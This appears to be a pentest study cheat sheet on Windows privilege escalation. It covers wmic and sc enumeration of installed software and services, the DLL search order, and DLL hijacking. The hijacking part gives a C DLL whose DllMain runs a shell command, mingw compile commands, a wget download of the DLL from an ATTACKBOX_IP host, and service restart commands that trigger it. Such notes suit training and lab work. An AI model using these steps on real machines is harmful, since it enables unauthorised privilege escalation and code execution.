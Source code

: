 
## Software vulnerabilites
### wmic
`wmic product`
`wmic product get name,version,vendor`
`wmic service list brief`
`wmic service list brief | findstr  "Running"`
more information on any service, you can simply use the `sc qc`
`where /r c: *term*`
***
## DLL Hijacking
Some Windows executables will use Dynamic Link Libraries (DLLs) when running.

#### DLL locations
If **SafeDllSearchMode** is enabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
3.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
5.  The current directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

If **SafeDllSearchMode** is disabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The current directory.
3.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
4.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

Tool ProcMon can be used to find dll files. Need admin to run so have to download and install target software yourself
***
#### Compile dll
skeleton DLL in C
```
#include <windows.h>  
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
		ExitProcess(0);
	}     
	return TRUE;
}
```
`apt install gcc-mingw-w64-x86-64`
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`

`sc stop dllsvc & sc start dllsvc`
